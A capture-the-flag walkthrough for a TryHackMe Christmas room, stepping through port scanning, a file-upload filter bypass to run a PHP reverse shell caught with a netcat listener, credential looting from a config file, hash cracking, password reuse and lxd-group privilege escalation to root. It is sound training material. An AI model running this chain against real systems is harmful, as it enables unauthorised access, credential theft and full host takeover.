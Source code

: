 # The Trial Before Christmas

- Scan the machine. What ports are open?

	- `scilla port -target <TARGET_IP>`, [scilla here](https://github.com/edoardottt/scilla)
	- `80, 65000`

- What's the title of the hidden website? It's worthwhile looking recursively at all websites on the box for this step.

	- `http://<TARGET_IP>:65000`
	- `Light Cycle`

- What is the name of the hidden php page?

	- `gobuster dir -u http://<TARGET_IP>:65000 -x .php -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt`
	- `uploads.php`

- What is the name of the hidden directory where file uploads are saved?

	- `scilla dir -target http://<TARGET_IP> -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt`
	- `grid`

- Bypass the filters. Upload and execute a reverse shell.

	no answer needed

	- Navigate to `http://<TARGET_IP>:65000/uploads.php`
	- Download [php-reverse-shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php)
	- Change the ip from the default to yours ip.
	- Upload the file.
	- Damn. Invalid file.
	- Let's look to the validation.
	- Found `assets/js/filter.js`.
	~~~
	const filter = file => {
		if(["image/png", "image/jpeg", "image/jpg"].indexOf(file.type) < 0){
			return false;
		} else if (["png", "jpeg", "jpg"].indexOf(file.name.split(".").pop()) < 0){
			return false;
		}

		//Let's be honest -- these things are dangerous. May as well always return false Â¯\_(ãƒ„)_/Â¯
		return false;

	}
	~~~
	- This instead in `upload.js`
	~~~
	const upload = () => {
	let file = uploadInput.files[0];
	if(typeof filter === "function"){
		if(!filter(file)){
			changeMsg("Invalid File Type");
			return;
		}
	}
	~~~
	- Mhhh...
	- And here we are: `accept=".png,.jpg,.jpeg"`
	- Rename that file to `rshell.jpg.php`
	- We have to avoid the download/usage of `filter.js`.
	- We can block it using the Developers Tools (F12) or using Burp.
	- *tips* If you are having trouble, clear all the cache/data in browser.
	- Move to `http://<TARGET_IP>:65000/grid/`
	- On your machine `nc -lnvp 1234`
	- Click on the uploaded file.

- What is the value of the web.txt flag?

	- `python3 -c 'import pty;pty.spawn("/bin/bash")'`
	- `cat /var/www/web.txt`
	- `THM{**************}`

- Upgrade and stabilize your shell.

	no answer needed
	
	- Referred to the first command of the previous task (`python3...`).

- Review the configuration files for the webserver to find some useful loot in the form of credentials. What credentials do you find? username:password

	- `cd /var/www/TheGrid`
	- `ls -alh`
	- `cd includes`
	- `cat dbauth.php`
	- `tron:I****************`

- Access the database and discover the encrypted credentials. What is the name of the database you find these in?

	- `mysql -u tron -p`
	- Enter the password.
	- `show databases;`
	- `tron`

- Crack the password. What is it?

	- `show tables;`
	- `use users;`
	- `select * from users;`
	~~~
	+----+----------+----------------------------------+
	| id | username | password                         |
	+----+----------+----------------------------------+
	|  1 | flynn    | ed*********d19a13*********	   |
	+----+----------+----------------------------------+
	~~~
	- `hash-identifier`
	- [crackstation](https://crackstation.net/)
	- `**********`

- Use su to login to the newly discovered user by exploiting password reuse.

	no answer needed

	- Exit from mysql client with `exit`.
	- `su flynn`
	- Enter the password

- What is the value of the user.txt flag?

	- `cd ~`
	- `ls`
	- `cat flag.txt`
	- `THM{********_****_***********}`

- Check the user's groups. Which group can be leveraged to escalate privileges?

	- `id`
	- `lxd`

- Abuse this group to escalate privileges to root.

	no answer needed

	- Check with `lxc image list` on target machine which containers are available locally.
	~~~
	+--------+--------------+--------+-------------------------------+--------+--------+------------------------------+
	| ALIAS  | FINGERPRINT  | PUBLIC |          DESCRIPTION          |  ARCH  |  SIZE  |         UPLOAD DATE          |
	+--------+--------------+--------+-------------------------------+--------+--------+------------------------------+
	| Alpine | a569b9af4e85 | no     | alpine v3.12 (20201220_03:48) | x86_64 | 3.07MB | Dec 20, 2020 at 3:51am (UTC) |
	+--------+--------------+--------+-------------------------------+--------+--------+------------------------------+
	~~~
	- `lxc init IMAGENAME CONTAINERNAME -c security.privileged=true`
	- `lxc config device add CONTAINERNAME DEVICENAME disk source=/ path=/mnt/root recursive=true`
	- `lxc start CONTAINERNAME`
	- `lxc exec CONTAINERNAME /bin/sh`
	- `id`	

- What is the value of the root.txt flag?

	- `cd /mnt/root/root`
	- `THM{***********}`

	~~~
	"As Elf McEager claimed the root flag a click could be heard as a small chamber on the anterior of the NUC popped open. Inside, McEager saw a small object, roughly the size of an SD card. As a moment, he realized that was exactly what it was. Perplexed, McEager shuffled around his desk to pick up the card and slot it into his computer. Immediately this prompted a window to open with the word 'HOLO' embossed in the center of what appeared to be a network of computers. Beneath this McEager read the following: Thank you for playing! Merry Christmas and happy holidays to all!"
	~~~


### see you ...
